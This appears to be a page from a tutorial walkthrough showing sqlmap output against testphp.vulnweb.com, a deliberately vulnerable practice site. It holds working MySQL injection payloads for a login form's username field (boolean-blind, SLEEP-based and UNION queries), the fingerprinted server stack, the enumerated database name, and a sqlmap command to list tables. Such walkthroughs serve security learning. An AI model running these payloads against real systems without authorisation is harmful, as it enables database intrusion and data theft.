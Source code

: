 ```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: uname=-9080' OR 3819=3819#&pass=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=' AND (SELECT 5751 FROM (SELECT(SLEEP(5)))TbTU)-- JgtD&pass=

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: uname=' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b787871,0x49674f717a43766442797866754b77625a4249676a535150615562525262734d6269756447477746,0x71716a7a71),NULL,NULL,NULL#&pass=
---
[13:28:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
[13:28:12] [WARNING] information_schema not available, back-end DBMS is MySQL < 5. database names will be fetched from 'mysql' database
[13:28:13] [WARNING] the SQL query provided does not return any output
[13:28:13] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[13:28:13] [INFO] fetching number of databases
[13:28:14] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:28:14] [INFO] retrieved: 
[13:28:15] [WARNING] time-based comparison requires larger statistical model, please wait....................... (done)
[13:28:26] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[13:28:27] [ERROR] unable to retrieve the number of databases
[13:28:27] [INFO] falling back to current database
[13:28:27] [INFO] fetching current database
available databases [1]:
[*] acuart

[13:28:28] [INFO] fetched data logged to text files under '/home/sherwinowen/.local/share/sqlmap/output/testphp.vulnweb.com'

[*] ending @ 13:28:28 /2021-10-14/
```

**Get the tables**

```
python3 sqlmap.py -r request.txt -D [databse name] --tables
```
